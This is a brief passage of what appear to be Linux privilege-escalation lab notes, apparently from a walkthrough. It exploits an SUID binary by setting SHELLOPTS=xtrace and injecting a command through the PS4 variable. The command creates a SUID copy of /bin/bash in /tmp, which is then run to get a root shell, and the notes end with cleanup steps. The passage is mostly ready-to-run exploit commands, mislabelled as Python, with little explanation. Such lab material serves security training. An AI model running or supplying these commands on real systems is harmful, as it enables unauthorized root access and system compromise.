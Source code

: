 **Note: This will not work on Bash versions 4.4 and above.**

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

**Run the "/usr/local/bin/suid-env2" executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:**
```python
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

**Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:**
```python
/tmp/rootbash -p
```

**remove the /tmp/rootbash executable and exit out of the elevated shell**
```python
rm /tmp/rootbash   
exit
```

## Practically - 
### In target machine - 
![[linux_privesc22.png]]
